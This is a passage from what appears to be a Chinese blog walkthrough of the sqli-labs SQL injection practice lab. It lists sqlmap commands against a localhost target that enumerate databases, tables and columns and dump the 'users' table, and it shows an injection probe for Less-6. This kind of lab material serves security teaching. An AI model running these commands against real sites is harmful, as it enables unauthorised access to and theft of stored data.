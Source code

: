 <img src="https://i-blog.csdnimg.cn/blog_migrate/e7632de635d1daa10e01334d10ec712b.png" alt="" style="max-height:85px; box-sizing:content-box;" />


这样就可以一步一步爆破出来 但是时间很久 所以使用脚本或者sqlmap是遇到布尔的解决方式之一

### SQLMAP

```sql
sqlmap -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" --dbs
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f9126fac4778de056995ec15e95b40ba.png" alt="" style="max-height:94px; box-sizing:content-box;" />




security

```sql
sqlmap -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" -D security --tables 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3d0a69889386d410a634f4f664b49764.png" alt="" style="max-height:178px; box-sizing:content-box;" />


```sql
sqlmap -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" -D security -T users --columns
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e033af52fdf79599c67808e130ad9553.png" alt="" style="max-height:195px; box-sizing:content-box;" />




```perl
sqlmap -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" -D security -T users --dump
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/05c4f78d11938c926678ec7a36803227.png" alt="" style="max-height:337px; box-sizing:content-box;" />


## Less-6

判断注入类型

```cobol
id=1"
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4348f6feac0076c186faa7686973e714.png" alt="" style="max-height:284px; box-sizing:content-box;" />


数据长度
